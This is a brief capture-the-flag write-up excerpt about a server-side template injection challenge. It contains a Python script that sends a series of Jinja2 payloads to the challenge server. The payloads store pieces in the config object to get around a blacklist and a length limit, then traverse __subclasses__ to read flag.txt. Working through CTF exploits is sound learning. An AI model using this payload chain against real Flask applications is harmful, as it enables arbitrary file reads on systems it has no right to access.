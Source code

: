 A SSTI challenge with blacklisted terms and a string length restriction. The `config` variable is not blacklisted and we can split up and persist our payloads through it.
```python
import requests
payloads = [
    '{{config.update({"u":config.update})}}', #we are storing the config.update() method into a config variable itself to minimise characters 
    '{{config.u({"a":"".__class__.mro()})}}', #the next few lines just breaks up the payload into multiple parts and stores them into config vars
    '{{config.u({"b":"__subclasses__"})}}',
    '{{config.u({"c":config.a[1]})}}',
    '{{config.u({"d":config.c[config.b]})}}',
    '{{config.u({"e":config.d()[357]})}}',
    "{{config.e('flag.txt').read()}}" ## calling read() on the initialised LazyFile class
]

for i in payloads:
    resp=requests.post("http://golf.c1.blahaj.sg/greet",data={"comment":i})
    print(resp.content)
```
Code taken directly from the writeup above, full credits to them
## Shikanoko
TODO